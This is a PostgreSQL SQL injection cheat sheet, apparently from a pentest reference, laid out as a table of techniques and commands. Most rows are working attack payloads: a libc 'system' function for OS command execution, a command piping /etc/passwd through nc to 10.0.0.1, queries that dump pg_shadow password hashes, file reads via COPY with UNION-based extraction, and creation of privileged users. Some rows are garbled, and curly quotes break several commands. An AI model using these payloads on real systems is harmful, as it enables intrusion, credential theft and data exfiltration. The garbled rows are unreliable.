 Select Nth Char | SELECT substr(‘abcd’, 3, 1);
. | - This command returns c.
If Statement | IF statements only seem valid inside functions, therefore they are of less use in SQL injection statement. See CASE statement instead.
Case Statement | SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END;
. | - This command returns A.
Comments | SELECT 1;
. | - This command is used for writing a comment.
. | SELECT /*comment*/1;
. | - This command is used to comment out a statement.
String without Quotes | SELECT (CHAR(75)||CHAR(76)||CHAR(77))
. | - This command will return ‘KLM’.
Time Delay | SELECT pg_sleep(10);
. | - This command triggers a measurable sleep time.
. | - In postgres is 8.2+ only.
. | CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10);
. | - This command is to create your own sleep function.
Command Execution | CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; 
. | - priv
. | SELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′);
. | - This commands run as postgres/pgsql OS-level user.
Make DNS Requests | Generally, not it is not applicable in postgres. However, if contrib/dblinkis installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.
Remote Authentication | You should add “host” record to the pg_hba.conf file located in the DATA directory. host all all 192.168.20.0/24 md5;
List Passwords | SELECT pg_read_file('global/pg_auth',0,10000000);
. | - This command lists passwords from a given database.
List Password Hashes | SELECT usename, passwd FROM pg_shadow;
. | - This command is used obtain password hashes from a given database.
Bulk Insert | To read data from local files, first you should create a temporary file for that. Read file contents into this table, then read the data from table.
. | CREATE TABLE temptable(t text);
. | COPY temptable FROM 'c:/boot.ini';
. | SELECT * FROM temptable LIMIT 1 OFFSET 0
. | This functionality needs permissions for the service user who has been running database service. On default, it is not possible to read local files on Windows systems because postgres user doesn’t have read permissions. Drop the temporary file after exploitation. DROP TABLE temptable;
Create Users | CREATE USER test1 PASSWORD ‘pass1';
. | - This command creates a user name ‘USER test1’ having password ‘pass1’.
. | CREATE USER test1 PASSWORD ‘pass1' CREATEUSER;
. | - This command creates a user name ‘USER test1’ having password ‘pass1’ and at the same time privileges are granted the user.
Drop User | DROP USER test1;
. | - This command drops user name ‘USER test1’.
List DBA Accounts | SELECT usename FROM pg_user WHERE usesuper IS TRUE
. | - This command obtains a list of user names with DBA privileges.
Make user DBA | ALTER USER test1 CREATEUSER CREATEDB;
. | - This command grants DBA privileges to a user name ‘USER test1’.
Local File Access | CREATE TABLE mydata(t text);
. | COPY mydata FROM ‘/etc/passwd’;
. | - priv, can read files which are readable by postgres OS-level
user
. | …’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1;
. | - This command gets data back one row at a time.
. | …’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 2;
. | - This command gets data back one row at a time.
. | DROP TABLE mytest mytest;Write to a file:
. | - This command drops a table and then write it to another text file.
. | CREATE TABLE mytable (mycol text); 